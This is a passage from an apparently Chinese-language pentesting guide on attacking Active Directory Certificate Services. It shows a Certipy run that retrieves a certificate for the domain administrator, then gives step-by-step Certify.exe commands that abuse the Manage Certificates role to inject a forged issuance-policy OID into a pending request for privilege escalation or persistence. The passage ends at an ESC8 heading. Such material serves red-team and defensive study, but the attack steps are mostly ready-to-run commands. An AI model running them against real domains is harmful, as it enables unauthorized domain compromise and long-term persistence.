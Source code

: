 ```bash
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -retrieve 785
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 785
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Loaded private key from '785.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
### 攻击 3 – 管理证书扩展滥用 (SetExtension)

#### 解释

除了经典的 ESC7 滥用（启用 EDITF 属性或批准待处理请求），**Certify 2.0** 揭示了一种全新的原语，只需要在企业 CA 上拥有 *管理证书*（即 **证书管理员 / 官员**）角色。

`ICertAdmin::SetExtension` RPC 方法可以由任何持有 *管理证书* 的主体执行。虽然该方法传统上用于合法 CA 更新 **待处理** 请求的扩展，但攻击者可以滥用它来 **附加一个 *非默认* 证书扩展**（例如自定义的 *证书颁发政策* OID，如 `1.1.1.1`）到一个等待批准的请求上。

因为目标模板 **没有为该扩展定义默认值**，所以 CA 在请求最终被发出时不会覆盖攻击者控制的值。因此，生成的证书包含一个攻击者选择的扩展，可能会：

* 满足其他易受攻击模板的应用程序 / 颁发政策要求（导致权限提升）。
* 注入额外的 EKU 或政策，使证书在第三方系统中获得意外的信任。

简而言之，*管理证书* – 之前被认为是 ESC7 的“较弱”一半 – 现在可以被利用进行完全的权限提升或长期持久性，而无需触及 CA 配置或要求更严格的 *管理 CA* 权限。

#### 使用 Certify 2.0 滥用原语

1. **提交一个将保持 *待处理* 的证书请求。** 这可以通过需要经理批准的模板强制执行：
```powershell
Certify.exe request --ca SERVER\\CA-NAME --template SecureUser --subject "CN=User" --manager-approval
# 记下返回的请求 ID
```

2. **使用新的 `manage-ca` 命令将自定义扩展附加到待处理请求**：
```powershell
Certify.exe manage-ca --ca SERVER\\CA-NAME \
--request-id 1337 \
--set-extension "1.1.1.1=DER,10,01 01 00 00"  # 假的颁发政策 OID
```
*如果模板尚未定义 *证书颁发政策* 扩展，上述值将在颁发后保留。*

3. **发出请求**（如果您的角色也具有 *管理证书* 批准权限）或等待操作员批准。一旦发出，下载证书：
```powershell
Certify.exe request-download --ca SERVER\\CA-NAME --id 1337
```

4. 生成的证书现在包含恶意的颁发政策 OID，可以在后续攻击中使用（例如 ESC13、域提升等）。

> 注意：同样的攻击可以通过 `ca` 命令和 `-set-extension` 参数使用 Certipy ≥ 4.7 执行。

## NTLM 中继到 AD CS HTTP 端点 – ESC8
